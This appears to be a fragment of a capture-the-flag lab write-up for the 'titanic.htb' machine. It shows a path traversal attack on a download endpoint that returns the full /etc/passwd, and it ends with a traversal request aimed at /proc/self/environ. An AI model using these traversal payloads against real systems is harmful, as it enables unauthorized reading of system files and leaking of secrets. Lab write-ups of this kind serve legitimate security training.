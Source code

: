 ```bash
Upgrade-Insecure-Requests: 1
Priority: u=0, i

![alt text](image-2.png)

# ans
HTTP/1.1 200 OK
Date: Mon, 30 Jun 2025 04:06:38 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="../../../../../../etc/passwd"
Content-Type: application/octet-stream
Content-Length: 1951
Last-Modified: Fri, 07 Feb 2025 11:16:19 GMT
Cache-Control: no-cache
ETag: "1738926979.4294043-1951-1015942535"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

cat users.txt | grep "bash"
# ans
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash

# proc/self/environ
GET /download?ticket=../../../../../../proc/self/environ HTTP/1.1
Host: titanic.htb
```